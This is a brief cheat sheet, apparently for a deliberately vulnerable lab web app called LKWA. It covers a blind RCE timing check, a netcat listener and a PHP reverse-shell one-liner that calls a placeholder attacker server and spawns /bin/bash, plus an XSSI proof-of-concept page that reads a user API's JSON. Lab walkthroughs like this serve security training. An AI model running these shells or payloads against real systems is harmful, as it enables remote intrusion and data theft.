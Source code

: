 # lkwa-cheatsheet

## 0x01 – Blind RCE

try `sleep 5`

### Reverse Shell

- in my macOS Terminal
  - `nc -l your.server.ip.address 8888`
- in the LKWA
  - `php -r '$sock=fsockopen("your.server.ip.address",8888);exec("/bin/bash -i <&3 >&3 2>&3");'`

## 0x02 – XSSI

you will find `api/user` in response body.  
try `curl http://localhost:3000/api/user`

### deploy tiny hacking server

```bash
mkdir xssi-server
cd xssi-server/
vi index.html
```

```html
<html>
  <head>
    <title>XSSI</title>
  </head>
  <body>
    <script>
      function a(s)
      {
        alert(JSON.stringify(s));
      }
    </script>
    <script src="http://localhost:3000/api/user"></script>
  </body>
</html>
```

deploy: `php -S localhost:3001`

access `http://localhost:3001/index.html` from browser.
